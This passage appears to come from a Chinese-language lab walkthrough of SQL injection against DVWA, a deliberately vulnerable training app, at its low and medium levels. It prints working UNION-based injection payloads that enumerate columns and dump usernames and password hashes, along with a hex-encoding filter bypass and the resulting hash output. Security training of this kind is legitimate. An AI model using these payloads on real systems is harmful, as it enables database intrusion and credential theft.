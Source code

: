 **Illegal mix of collations for operation 'UNION'**

```
1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_schema=database() and table_name='users' #
```

![image-20221113155210293.png](https://img.ghostliner.top/lx5i3l.png)

```
user_id,first_name,last_name,user,password,avatar,last_login,failed_login,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```

**7.下载数据**

```
1' union select group_concat(user_id,first_name,last_name,user) ,group_concat(password) COLLATE utf8_general_ci from users #
```

返回结果：

```
ID: 1' union select group_concat(user_id,first_name,last_name,user) ,group_concat(password) COLLATE utf8_general_ci from users #<br>First name: 1adminadminadmin,2GordonBrowngordonb,3HackMe1337,4PabloPicassopablo,5BobSmithsmithy<br>Surname: 5f4dcc3b5aa765d61d8327deb882cf99,e99a18c428cb38d5f260853678922e03,8d3533d75ae2c3966d7e0d4fcc69216b,0d107d09f5bbe40cade3de5c71e9e9b7,5f4dcc3b5aa765d61d8327deb882cf99
```

![image-20221113160057448.png](https://img.ghostliner.top/DUHM44.png)

#### MEDIUM

```sql
1 and 1=1
```

数字型注入

字符串 users 改为 16 进制可绕过

```sql
1 or 1=1

1 union select 1,database()#

1 union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database()#

1 union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name=0x7573657273# --0x7573657273 hex(users)

1 union select group_concat(user_id,first_name,last_name,user),group_concat(password) COLLATE utf8_general_ci from users#
```
